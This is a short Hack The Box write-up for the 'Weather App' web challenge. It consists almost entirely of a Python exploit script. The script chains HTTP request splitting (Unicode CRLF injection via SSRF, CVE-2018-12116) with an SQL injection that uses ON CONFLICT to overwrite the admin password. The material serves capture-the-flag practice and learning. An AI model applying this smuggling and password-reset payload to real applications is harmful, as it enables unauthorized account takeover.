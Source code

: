 ```yaml
---
layout: single
title: Weather App [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - HTTP request smuggling
  - SQL injection CONFLICT
---
```


Exploit:
```python
import requests

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


username="admin"
password="dhmos') ON CONFLICT(username) DO UPDATE SET password = 'paok';--"

new_passwd = password.replace("\n","\u0120").replace(" ","\u0120").replace("'","%27").replace('"', "%22")
new_user = username.replace("\n","\u0120").replace(" ","\u0120").replace("'","%27").replace('"', "%22")
Content_Length=len(new_user)+len(new_passwd)+19

print(Content_Length)
smug='127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHOST:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(Content_Length) + '\u010D\u010A\u010D\u010Ausername=' + new_user + '&password=' + new_passwd + '\u010D\u010A\u010D\u010AGET\u0120/?lol='

requests.post("http://157.245.43.98:30094/api/weather", json={'endpoint': smug, 'city': 'noo', 'country': 'zeoroor'}, proxies=proxies)
```


Ref:
https://nodejs.org/en/blog/vulnerability/november-2018-security-releases/#http-request-splitting-cve-2018-12116
https://hackerone.com/reports/409943
https://stackoverflow.com/questions/15433188/what-is-the-difference-between-r-n-r-and-n
